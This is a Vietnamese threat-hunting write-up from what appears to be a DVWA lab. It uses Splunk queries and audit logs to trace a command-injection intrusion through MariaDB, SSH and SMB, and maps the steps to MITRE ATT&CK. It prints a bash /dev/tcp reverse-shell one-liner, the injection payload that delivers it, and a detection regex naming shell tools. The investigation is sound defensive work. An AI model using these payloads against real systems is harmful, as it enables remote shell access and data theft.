








# Threat Hunting

## 1. Thêm các index log để phân tích

Phần triển khai được tách thành các hướng dẫn độc lập để dễ thực hiện và
kiểm tra theo từng nguồn log.

### a. Log MariaDB

Đọc [Hướng dẫn bật MariaDB Audit Log](01-mariadb-audit.md).

### b. Log audit của WEB01

Đọc [Hướng dẫn audit process và network của WEB01](02-web-audit.md).

### c. Log audit của CL01

Đọc [Hướng dẫn audit command trên CL01](03-cl01-audit.md).

### d. Log payload của HTTP POST

Đọc [Hướng dẫn log payload HTTP POST của DVWA](04-web-payload.md). Hướng dẫn
này được viết dựa trên [log_payload_web.md](../../log_payload_web.md).

### e. Log SMB

Đọc [Hướng dẫn bật Samba full audit và index SMB](05-smb-audit.md). Hướng dẫn
này được viết dựa trên [log_smb.md](../../log_smb.md).

## 2. Threat Hunting

### 2.1. Phát hiện process bất thường của www-data trên WEB01

Ta kiểm tra xem có tiến trình nào bất thường từ user `www-data` trên web01 hay không

SPL sử dụng:
~~~spl
index=linux_audit host=web01 sourcetype=auditd
    (key=web_process_exec OR type=EXECVE)
| eval audit_event=msg
| stats
    min(_time) as _time
    values(eval(if(key="web_process_exec", euid, null()))) as euid
    values(eval(if(key="web_process_exec", uid, null()))) as uid
    values(eval(if(key="web_process_exec", success, null()))) as syscall_success
    values(eval(if(key="web_process_exec", comm, null()))) as comm
    values(eval(if(key="web_process_exec", exe, null()))) as exe
    values(eval(if(key="web_process_exec", pid, null()))) as pid
    values(eval(if(type="EXECVE", argc, null()))) as argc
    values(eval(if(type="EXECVE", a0, null()))) as arg0
    values(eval(if(type="EXECVE", a1, null()))) as arg1
    values(eval(if(type="EXECVE", a2, null()))) as arg2
    values(eval(if(type="EXECVE", a3, null()))) as arg3
    values(eval(if(type="EXECVE", a4, null()))) as arg4
    values(eval(if(type="EXECVE", a5, null()))) as arg5
    values(eval(if(type="EXECVE", a6, null()))) as arg6
    values(eval(if(type="EXECVE", a7, null()))) as arg7
    values(eval(if(type="EXECVE", a8, null()))) as arg8
    values(eval(if(type="EXECVE", a9, null()))) as arg9
    values(eval(if(type="EXECVE", a10, null()))) as arg10
    values(eval(if(type="EXECVE", a11, null()))) as arg11
    values(eval(if(type="EXECVE", a12, null()))) as arg12
    values(eval(if(type="EXECVE", a13, null()))) as arg13
    values(eval(if(type="EXECVE", a14, null()))) as arg14
    values(eval(if(type="EXECVE", a15, null()))) as arg15
    values(eval(if(type="EXECVE", a16, null()))) as arg16
    values(eval(if(type="EXECVE", a17, null()))) as arg17
    by audit_event
| where euid=33 OR uid=33
| eval user="www-data"
| eval args=mvappend(
    arg0,arg1,arg2,arg3,arg4,arg5,arg6,arg7,arg8,arg9,
    arg10,arg11,arg12,arg13,arg14,arg15,arg16,arg17
  )
| eval args=mvfilter(isnotnull(args) AND args!="")
| eval full_command=mvjoin(args, " ")
| eval result=case(
    lower(syscall_success)="yes" OR lower(syscall_success)="success"
        OR syscall_success="1", "success",
    lower(syscall_success)="no" OR lower(syscall_success)="failed"
        OR syscall_success="0", "failed",
    isnull(syscall_success) OR syscall_success="", "unknown",
    true(), "unknown"
  )
| table _time user full_command comm exe syscall_success result pid argc audit_event
| sort - _time
~~~

SPL trên giúp xem các lệnh mà user `www-data` đã thực hiện trên web01

Ta phát hiện có các tiến trình bash bất thường trong khoảng thời gian `21h:15`, không phải là thời gian hành chính

Ta decode chuỗi hex `62617368202D69203E26202F6465762F7463702F3139322E3136382E3234352E3130302F34343320303E2631` thì kết quả tương ứng là `bash -i >& /dev/tcp/192.168.245.100/443 0>&1`, một lệnh kết nối reverse shell đến `192.168.245.100:443`

Sau đó ta cũng thấy attacker thực hiện recon(`ls`, `whoami`, `ss -tlpun`) và kết nối mariadb bằng user root (ta cho phép login mà không cần password)

### 2.2. Kiểm tra hoạt động MariaDB

Vì attacker đã truy cập thành công database mariadb nên ta kiểm tra xem attacker đã thực hiện gì trên database

Sử dụng SPL sau:
~~~spl
index=database_web sourcetype="mariadb:audit" host=web01 earliest=-60m
| rex field=_raw "^[^,]+,[^,]+,(?<db_user>[^,]+),(?<client_host>[^,]+),(?<connection_id>[^,]+),(?<query_id>[^,]+),(?<operation>[^,]+),(?<database_name>[^,]*),(?<query_or_object>.*),(?<return_code>[^,]*)$"
| eval result=case(
    return_code="0", "success",
    return_code!="" AND return_code!="0", "failed",
    in(operation, "CONNECT", "DISCONNECT", "QUERY", "READ", "WRITE"), "logged",
    true(), "unknown"
  )
| eval activity=case(
    in(operation, "CONNECT", "DISCONNECT"), "connection",
    operation="QUERY", "query",
    operation="READ", "table_read",
    operation="WRITE", "table_write",
    true(), "other"
  )
| table _time db_user client_host connection_id query_id operation
    database_name query_or_object return_code result activity
    host source sourcetype
| sort - +_time
| where _time >= strptime("2026-11-05 21:15:54", "%Y-%m-%d %H:%M:%S")
~~~
(Xem các action được thực hiện trên database kể từ `2026-11-05 21:15:54`(lúc attacker thực hiện lệnh `mariadb -u root`))

Ta thấy được attacker chỉ thực hiện recon database và đọc các table trong database `dvwa`, không thực hiện xóa/sửa database

### 2.3. Đối chiếu Apache access log và IP nội bộ

Ta dùng lại spl đầu tiên kiểm tra xem attacker thực hiện gì trên web01 sau khi truy cập mariadb

Ta thấy được thực hiện recon và đọc được file access log của apache2, sau đó thì thực hiện bruteforce ssh đến `10.10.10.11`(một internal host) → có lẽ attacker đọc được ip internal host này thông qua file access log đó

Ta dùng SPL sau để kiểm tra thật sự có ip `10.10.10.11` trong access log của web hay không

→ kết quả đúng như dự đoán, có ip `10.10.10.11` trong access log của web, và khả năng cao là attacker tìm được ip này qua access log đó

### 2.4. Truy vết user SSH trên CL01

Câu hỏi tiếp theo là các username mà attacker sử dụng để ssh là từ đâu

Ta kiểm tra lại các user trong database thì nhận thấy đúng với các user mà attacker thực hiện ssh

Nhận thấy attacker đã thực hiện thành công vào một máy nhân viên `10.10.10.11` với user `nhanvien1`, ta kiểm tra các lệnh mà `nhanvien1` đã thực hiện trong khoảng thời gian đó

Sử dụng SPL sau:
~~~spl
index=linux_audit host=cl01 sourcetype=auditd
    (key=command_execution OR type=EXECVE)
| eval audit_event=msg
| stats
    min(_time) as _time
    values(eval(if(key="command_execution", EUID, null()))) as audit_user
    values(eval(if(key="command_execution", uid, null()))) as uid
    values(eval(if(key="command_execution", success, null()))) as syscall_success
    values(eval(if(key="command_execution", comm, null()))) as comm
    values(eval(if(key="command_execution", exe, null()))) as exe
    values(eval(if(key="command_execution", pid, null()))) as pid
    values(eval(if(key="command_execution", ppid, null()))) as ppid
    values(eval(if(key="command_execution", auid, null()))) as auid
    values(eval(if(type="EXECVE", argc, null()))) as argc
    values(eval(if(type="EXECVE", a0, null()))) as arg0
    values(eval(if(type="EXECVE", a1, null()))) as arg1
    values(eval(if(type="EXECVE", a2, null()))) as arg2
    values(eval(if(type="EXECVE", a3, null()))) as arg3
    values(eval(if(type="EXECVE", a4, null()))) as arg4
    values(eval(if(type="EXECVE", a5, null()))) as arg5
    values(eval(if(type="EXECVE", a6, null()))) as arg6
    values(eval(if(type="EXECVE", a7, null()))) as arg7
    values(eval(if(type="EXECVE", a8, null()))) as arg8
    values(eval(if(type="EXECVE", a9, null()))) as arg9
    values(eval(if(type="EXECVE", a10, null()))) as arg10
    values(eval(if(type="EXECVE", a11, null()))) as arg11
    values(eval(if(type="EXECVE", a12, null()))) as arg12
    values(eval(if(type="EXECVE", a13, null()))) as arg13
    values(eval(if(type="EXECVE", a14, null()))) as arg14
    values(eval(if(type="EXECVE", a15, null()))) as arg15
    values(eval(if(type="EXECVE", a16, null()))) as arg16
    values(eval(if(type="EXECVE", a17, null()))) as arg17
    by audit_event
| where audit_user="nhanvien1" OR uid=1001
| eval user=coalesce(audit_user, "nhanvien1")
| eval args=mvappend(
    arg0,arg1,arg2,arg3,arg4,arg5,arg6,arg7,arg8,arg9,
    arg10,arg11,arg12,arg13,arg14,arg15,arg16,arg17
  )
| eval args=mvfilter(isnotnull(args) AND args!="")
| eval full_command=mvjoin(args, " ")
| eval result=case(
    lower(syscall_success)="yes" OR lower(syscall_success)="success"
        OR syscall_success="1", "success",
    lower(syscall_success)="no" OR lower(syscall_success)="failed"
        OR syscall_success="0", "failed",
    isnull(syscall_success) OR syscall_success="", "unknown",
    true(), "unknown"
  )
| table _time user full_command comm exe syscall_success result
    pid ppid auid argc audit_event
| sort - +_time
| where _time >= strptime("2026-11-05 21:18:00", "%Y-%m-%d %H:%M:%S")
~~~

Kết quả:

-> Nhận thấy attacker đọc được file `.smbcred` chứa credential smb và thực hiện kết nối đến smb server (10.10.10.11) với user `ketoan1`, sau đó lấy được và đọc secret file `khachhang.csv`

### 2.5. Kiểm tra hoạt động SMB sau khi SSH

Ta kiểm tra log smb trong thời gian đó để kiểm tra attacker có thực hiện điều gì khác trên smb server không

Ta sử dụng SPL:
~~~spl
index=smb sourcetype="samba:full_audit" earliest=-24h
| rex field=_raw "smbd_audit: (?<audit_user>[^|]+)\\|(?<client_ip>[^|]+)\\|(?<client_host>[^|]+)\\|(?<share>[^|]+)\\|(?<operation>[^|]+)\\|(?<result>[^|]+)\\|(?<object>.*)"
| eval activity=case(
    in(operation,"connect","disconnect"), "connection",
    in(operation,"open","close","pread","read","pwrite","write"), "file_access",
    in(operation,"mkdirat","renameat","unlinkat"), "file_change",
    true(), "other"
  )
| eval action_result=case(
    lower(result)="ok" OR lower(result)="success", "success",
    lower(result)="failed" OR lower(result)="failure", "failed",
    true(), result
  )
| where action_result="success"
| table _time audit_user client_ip client_host share activity operation
    action_result object host source sourcetype
| sort 0 - +_time
| where _time >= strptime("2026-11-05 21:18:00", "%Y-%m-%d %H:%M:%S")
~~~

Kết quả:

Nhận thấy rằng attacker chỉ thực hiện đọc file `khachhang.csv` thôi, không làm gì khác

### 2.6. Đối chiếu payload command injection

Tiếp theo ta cần xác định payload khiến web thực hiện revere shell, ta kiểm tra xem có HTTP request có payload pattern reverse shell gửi đến không

Ta dùng SPL sau:
~~~spl
index=web host=web01 sourcetype="dvwa:application" earliest=-24h
| spath
| search event="dvwa_command_injection" phase=start
| eval injection_indicator=if(
    match(payload,"(;|\\||&&|\\$\\(|\\x60|/dev/tcp|\\b(id|whoami|pwd|uname|curl|wget)\\b)"),
    "suspicious",
    "other"
  )
| where injection_indicator="suspicious"
| table _time request_id src_ip user http_method request_uri
    payload executed_command security_level injection_indicator
| sort 0 - _time
~~~

SPL này kiểm tra xem có payload nào gửi đến đồng thời lệnh thực hiện là gì trong chức năng command injection của web

Kết quả:

Ta thấy được có payload `127.0.0.1;bash -c "bash -i >& /dev/tcp/192.168.245.100/443 0>&1"` gửi đến route `/DVWA/vulnerabilities/exec/`, đúng với lệnh mà `www-data` đã thực hiện

-> ta sẽ kiểm tra lại payload với route `/DVWA/vulnerabilities/exec/` để xem route `/DVWA/vulnerabilities/exec/` có đang bị lỗi command injection hay không

### 2.7. Kết luận luồng exploit

Sau khi thực hiện threat hunting ta biết được luồng exploit của attacker là:

- Exploit command injection ở route `/DVWA/vulnerabilities/exec/`, từ đó lấy được reverse shell của web01
- Thực hiện recon, login mariadb ở localhost với user root(không cần password), từ đó đọc được toàn bộ database dvwa
- Đọc file access log của apache và thấy được internal ip của một máy nhân viên là `10.10.10.11`
- Thực hiện bruteforce ssh đến máy nhân viên sử dụng credential trong table `users` mà attacker đọc được trong database
- Sau khi ssh thành công đến `10.10.10.11` thì kết nối đến SMB Server, sử dụng credential trong file `.smbcred` và đọc được file secret `khachhang.csv`

#### Mapping flow exploit với các kỹ thuật MITRE ATT&CK tương ứng 

| # | Attack activity | MITRE ATT&CK ID | Technique | Tactic |
|---|---|---|---|---|
| 1 | Exploit command injection tại DVWA `/vulnerabilities/exec/` | T1190 | Exploit Public-Facing Application | Initial Access |
| 2 | Execute command trên web01 thông qua command injection | T1059.004 | Unix Shell | Execution |
| 3 | Establish reverse shell đến web01 | T1059.004 | Unix Shell | Execution |
| 4 | Recon và truy cập MariaDB bằng tài khoản root không có password | T1078.001 | Default Accounts | Initial Access, Persistence, Privilege Escalation, Defense Evasion |
| 5 | Enumerate và đọc dữ liệu database `dvwa` | T1213 | Data from Information Repositories | Collection |
| 6 | Đọc Apache access log để xác định internal IP `10.10.10.11` | T1654 | Log Enumeration | Discovery |
| 7 | Bruteforce SSH sử dụng credential thu thập từ database | T1110.004 | Credential Stuffing | Credential Access |
| 8 | SSH từ web01 sang máy nhân viên `10.10.10.11` | T1021.004 | SSH | Lateral Movement |
| 9 | Sử dụng credential trong `.smbcred` để truy cập SMB Server | T1078 | Valid Accounts | Defense Evasion, Persistence, Privilege Escalation, Initial Access |
| 10 | Kết nối SMB Server | T1021.002 | SMB/Windows Admin Shares | Lateral Movement |
| 11 | Đọc file `secret_khachhang.csv` trên SMB share | T1039 | Data from Network Shared Drive | Collection |